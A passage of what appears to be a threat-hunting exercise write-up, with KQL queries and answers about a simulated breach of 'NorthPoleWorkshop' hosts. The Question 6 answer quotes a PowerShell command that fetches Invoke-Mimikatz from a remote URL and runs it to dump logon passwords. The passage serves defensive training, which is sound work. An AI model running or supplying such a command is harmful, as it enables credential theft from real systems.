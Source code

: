 ```
182.56.23.122
```

> ###### Section 4 - Question 5
> what hostname was accessed?
> 
> ~~~sql
> database('NorthPoleWorkshop').AuthenticationEvents
> | where src_ip == "182.56.23.122"
> | distinct hostname
> ~~~

```
WebApp-ElvesWorkshop
```

> ###### Section 4 - Question 6
> What was the script that was run to obtain credentials?
>
> ~~~sql
> database('NorthPoleWorkshop').ProcessEvents
> | where hostname == "WebApp-ElvesWorkshop"
> ~~~

> [!NOTE]
> powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString("https://raw[.]githubusercontent[.]com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz[.]ps1"); Invoke-Mimikatz -Command "privilege::debug" "sekurlsa::logonpasswords"

```
Invoke-Mimikatz.ps1
```

> ###### Section 4 - Question 7
> What is the timestamp where Noel executed the file?
>
> ~~~sql
> database('NorthPoleWorkshop').ProcessEvents
> | where hostname contains "Boetie"
> ~~~

> [!NOTE]
> Explorer.exe "C:\Users\noboetie\Downloads\echo.exe"

```
2024-12-12T15:14:38Z
```

> ###### Section 4 - Question 8
> What domain was the holidaycandy.hta file downloaded from?
> 
> ~~~sql
> database('NorthPoleWorkshop').OutboundNetworkEvents
> | where src_ip == "10.10.0.9"
> | where url contains "hta"
> | distinct url
> | project url = extract("(.*)://([^/]*)", 2, url)
> ~~~
